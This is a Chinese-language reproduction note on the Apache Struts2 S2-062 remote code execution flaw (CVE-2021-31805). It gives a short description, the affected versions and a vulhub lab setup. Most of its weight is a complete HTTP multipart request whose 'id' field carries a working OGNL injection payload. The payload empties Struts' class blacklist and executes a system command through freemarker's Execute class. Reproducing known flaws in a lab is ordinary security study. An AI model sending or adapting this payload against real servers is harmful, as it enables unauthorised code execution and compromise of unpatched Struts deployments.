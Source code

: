 # Apache Struts2 S2-062 远程代码执行漏洞 CVE-2021-31805

## 漏洞描述

该漏洞由于对CVE-2020-17530的修复不完整造成的，CVE-2020-17530漏洞是由于Struts2 会对某些标签属性(比如id) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 %{x} 且 其中x 的值用户可控时，用户再传入一个 %{payload} 即可造成OGNL表达式执行。在CVE-2021-31805漏洞中，仍然存在部分标签属性会造成攻击者恶意构造的OGNL表达式执行，导致远程代码执行。

## 漏洞影响

```
Struts 2.0.0 - Struts 2.5.29
```

## 环境搭建

```php
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-061
docker-compose up -d
```

## 漏洞复现

主页面

![img](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205131027608.png)

发送请求包

```php
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![img](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205131027759.png)